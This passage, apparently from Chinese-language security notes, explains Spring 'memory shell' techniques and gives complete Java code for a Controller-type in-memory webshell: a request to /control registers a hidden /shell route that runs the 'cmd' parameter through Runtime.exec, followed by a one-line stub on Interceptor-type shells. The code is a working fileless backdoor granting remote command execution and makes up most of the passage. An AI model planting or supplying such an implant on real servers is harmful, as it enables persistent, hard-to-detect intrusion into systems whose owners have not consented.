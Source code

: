 <a name="ktyno"></a>
## Controller类内存马
动态的注册Controller，思路如下

获取上下文环境<br />注册恶意Controller <br />配置路径映射<br />实例：
```java
......    

@Controller
public class shell_controller {


    @RequestMapping("/control")
    public void Spring_Controller() throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchMethodException {

        //获取当前上下文环境
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

        //手动注册Controller
        // 1. 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean
        RequestMappingHandlerMapping r = context.getBean(RequestMappingHandlerMapping.class);
        // 2. 通过反射获得自定义 controller 中唯一的 Method 对象
        Method method = Controller_Shell.class.getDeclaredMethod("shell");
        // 3. 定义访问 controller 的 URL 地址
        PatternsRequestCondition url = new PatternsRequestCondition("/shell");
        // 4. 定义允许访问 controller 的 HTTP 方法（GET/POST）
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 5. 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        r.registerMapping(info, new Controller_Shell(), method);

    }

    public class Controller_Shell{

        public Controller_Shell(){}

        public void shell() throws IOException {

            //获取request
            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
    }

}

```
<a name="MJhK0"></a>
## Interceptor类内存马
可以仿照Filter型内存马的实现思路
